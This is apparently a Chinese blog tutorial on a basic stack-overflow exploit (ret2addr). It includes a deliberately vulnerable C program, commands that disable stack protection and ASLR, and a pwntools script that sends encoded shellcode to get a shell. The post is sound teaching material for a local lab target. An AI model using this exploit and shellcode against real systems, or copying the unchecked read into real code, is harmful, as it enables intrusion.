 ```yaml
---
title:  Pwn 入门（ret2addr)
permalink: pwn-ret2addr
date: 2019-09-15 11:20:45
tags: 
 - blog
 - Pwn
 - 网安
categories:
 - 网安
 - Note
---
```


最简单的 pwn 就是使用栈溢出返回到一个地址去执行shellcode，虽然见不到这种攻击方法，但是，对栈结构的理解还是很有帮助的。

<!-- more -->

ret2addr（return-to-address，**返回到确定地址执行**的攻击方法）

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

没有栈不可执行（NX），也没有地址随机化（ASLR）。这时候就直接使用地址覆盖就好。

## 0. 准备一下

首先要创建一个文件，`vuln.c`

```c
# include <stdio.h>

void func() {
    char buf[0x50];
    read(0, buf, 0x100);
    write(1, buf, 0x100);
}

int main() {
    func();
    return 0;
}
```

安装 32 位编译环境

```bash
apt-get install gcc-multilib g++-multilib
```

编译并关闭地址随机化

```bash
# 编译命令 
gcc -m32 vuln.c -o vuln -fno-stack-protector -z execstack  -no-pie

# 关闭地址随机化功能
echo 0 > /proc/sys/kernel/randomize_va_space
```


## 1. 确定溢出位置

- 先在IDA里估计下缓存区大小，然后使用 `pattern create length`生成一段随机不重复的字符串。
- 然后在 gdb 中 r指令 运行程序，，由于栈溢出，导致原本的函数的返回地址无法执行。
- 使用 pattern offset addr 确定程序的返回地址，也就是应该输入的无效字符串的长度。

## 2. 确定返回地址

- 打开 core 转储功能 `ulimit -c unlimited`。
- 运行程序，输入 上面获得的长度的无效字符串 + 4个任意字符（ESP）+ 4个任意字符（EIP）。此时程序会报错，然后把信息转储至 core 文件。
- 用 `gdb 程序名称 core`打开 core 文件。
- 此时ESP指向了所希望的 shellcode 的位置，也就是我们的自定义代码的位置。
- 此时EIP应该填充为 shellcode 的地址，即此时ESP的值。

## 3. 编写利用脚本

```python
from pwn import *
#context.log_level='debug'
p=process("./vuln") # 此处是程序的路径
payload='a'*92	# 此处的92是第一步所确定的无效字符串的长度
payload+=p32(0xffffcf80) #此处的地址是第二步时获得的 shellcode 地址
#shellcode脚本
payload+="\xeb\x11\x5e\x31\xc9\xb1\x32\x80"
payload+="\x6c\x0e\xff\x01\x80\xe9\x01\x75"
payload+="\xf6\xeb\x05\xe8\xea\xff\xff\xff"
payload+="\x32\xc1\x51\x69\x30\x30\x74\x69"
payload+="\x69\x30\x63\x6a\x6f\x8a\xe4\x51"
payload+="\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

p.send(payload)
p.interactive()#返回交互式界面
```

## 4. pwn

- 执行`python vuln.py`（即第三步的脚本文件）